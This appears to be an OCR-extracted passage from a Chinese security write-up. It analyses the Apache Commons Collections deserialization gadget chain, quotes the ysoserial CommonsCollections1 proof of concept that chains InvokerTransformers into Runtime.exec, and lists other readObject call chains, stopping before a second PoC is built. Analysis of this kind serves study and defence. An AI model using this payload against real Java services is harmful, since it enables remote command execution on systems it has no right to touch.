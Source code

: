 	final Transformer[] transformers = new Transformer[]{
	new ConstantTransformer(Runtime.class),
	new InvokerTransformer("getMethod", new Class[]{
	String.class, Class[].class}, new Object[]{
	"getRuntime", new Class[0]}),
	new InvokerTransformer("invoke", new Class[]{
	Object.class, Object[].class}, new Object[]{
	null, new Object[0]}),
	new InvokerTransformer("exec",
	new Class[]{String.class}, execArgs),
	new ConstantTransformer(1)
	};
	
ysoserial中完整的poc如下:
	
	inal String[] execArgs = new String[] { command };
	final Transformer transformerChain = new ChainedTransformer(
	new Transformer[]{ new ConstantTransformer(1) });
	final Transformer[] transformers = new Transformer[] {
	new ConstantTransformer(Runtime.class),
	new InvokerTransformer("getMethod", new Class[] {
	String.class, Class[].class }, new Object[] {
	"getRuntime", new Class[0] }),
	new InvokerTransformer("invoke", new Class[] {
	Object.class, Object[].class }, new Object[] {
	null, new Object[0] }),
	new InvokerTransformer("exec",
	new Class[] { String.class }, execArgs),
	new ConstantTransformer(1) };

	final Map innerMap = new HashMap();
	
	final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
	
	final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
	
	final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
	
	Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

	return handler;
	
其实通过分析可以找到很多调用链的，比如
InvokerTransformer.transform()->TransformedMap.checkSetValue()->AbstractInputCheckedMapDecorator.setValue()->TreeMap.put()->CoreDocumentImpl.readObject()

还有一种比较简单的调用，直接是
InvokerTransformer.transform()->TransformedMap.checkSetValue()->AbstractInputCheckedMapDecorator.setValue()->AnnotationInvocationHandler.readObject()

###  情况2(TransformedMap.checkSetValue)
下面针对InvokerTransformer.transform()->TransformedMap.checkSetValue()->AbstractInputCheckedMapDecorator.setValue()->AnnotationInvocationHandler.readObject()
这条调用链来构造poc:
	